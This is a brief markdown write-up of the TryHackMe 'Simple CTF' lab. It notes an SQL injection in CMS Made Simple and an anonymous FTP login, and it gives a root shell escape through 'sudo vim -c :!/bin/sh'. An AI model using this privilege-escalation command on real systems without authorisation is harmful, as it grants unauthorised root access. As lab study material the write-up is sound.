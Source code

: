 # Simple CTF 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | Easy
Os |linux

**Notes :**




## Gaining Access 😉

- sql injection found on cmm made simple
- ftp login anonymous



## Maintaining Access 🥷
- sudo -l
- user can run vim without password
	- sudo vim -c ":!/bin/sh"


## Important commands 🔥
- sudo -l
- searchsploit -m 
```
sudo vim -c ':!/bin/sh'
```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- sudo -l permission
- ftp anonymous login


--------------------------------
**By Nibras Muhammed** 🤓🖥️






